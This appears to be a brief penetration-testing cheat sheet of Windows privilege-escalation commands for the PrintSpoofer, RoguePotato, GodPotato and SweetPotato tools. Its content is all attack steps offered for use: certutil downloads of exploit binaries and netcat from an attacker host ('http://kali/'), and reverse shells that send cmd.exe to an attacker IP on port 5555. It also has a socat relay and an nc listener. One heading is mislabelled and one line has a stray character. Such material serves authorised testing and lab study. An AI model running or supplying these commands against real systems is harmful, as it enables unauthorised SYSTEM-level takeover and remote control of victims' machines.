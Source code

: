 # PrintSpoofer
```bash
certutil -urlcache -f http://kali/PrintSpoofer64.exe PrintSpoofer64.exe

.\PrintSpoofer64.exe -i -c powershell.exe
```
-----------------------

# RoguePotato
```bash
# On victim
certutil -urlcache -f http://kali/RoguePotato.exe RoguePotato.exe
certutil -urlcache -f http://kali/nc64.exe nc64.exe

.\RoguePotato.exe -r kali-ip -e "C:\Users\Public\Documents\nc64.exe kali-ip 5555 -e cmd.exe" -l 9999

# On Kali
sudo socat tcp-listen:135,reuseaddr,fork tcp:victim-ip:9999
rlwrap nc -lvnp 5555
```

-----------------------

# RoguePotato
```bash
./GodPotato-NET2.exe -cmd "C:\TEMP\ncat.exe 192.168.45.235 5555 -e cmd"
./GodPotato-NET4.exe -cmd "C:\TEMP\ncat.exe 192.168.45.235 5555 -e cmd"
./GodPotato-NET35.exe -cmd "C:\TEMP\ncat.exe 192.168.45.235 5555 -e cmd"n
```

# SweetPotato
```bash
.\SweetPotato.exe -a cmd
```
